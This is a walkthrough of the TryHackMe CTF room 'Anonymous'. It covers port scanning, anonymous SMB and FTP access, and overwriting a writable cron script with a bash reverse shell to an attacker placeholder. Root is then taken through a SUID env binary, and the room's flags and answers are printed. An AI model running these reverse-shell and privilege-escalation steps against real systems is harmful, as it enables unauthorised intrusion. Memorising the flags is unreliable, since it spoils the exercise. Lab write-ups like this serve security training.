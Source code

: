 # Room: Anonymous (*Not the hacking group*)

This CTF is available on [TryHackMe](https://tryhackme.com/room/anonymous)

## Basic Enum

Nmap / rustcan

```shell
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```shell
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

There's a share on the user's computer.  What's it called?

**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```shell
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's have a look on thos files.

```shell
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```shell
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```shell
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```
Sure :smile: Let's have fun now and upload this simple script via ftp

```shell
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/AttackerIp/4242 0>&1
```

And on our side we just have to wait few seconds:

```shell
rlwrap nc -nlvp 4242            
listening on [any] 4242 ...
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992585815ff991e68748c414740
namelessone@anonymous:~$ 

```

- usert.txt: **90d6f992585815ff991e68748c414740**

> HINT: This may require you to do some outside research

Cheers ;) so as usual in this case, gtfobins comes in \o/

```shell
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell)

```shell
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
bash-4.4# 

```

- root.txt:**4d930091c31a622a7ed10f27999af363**
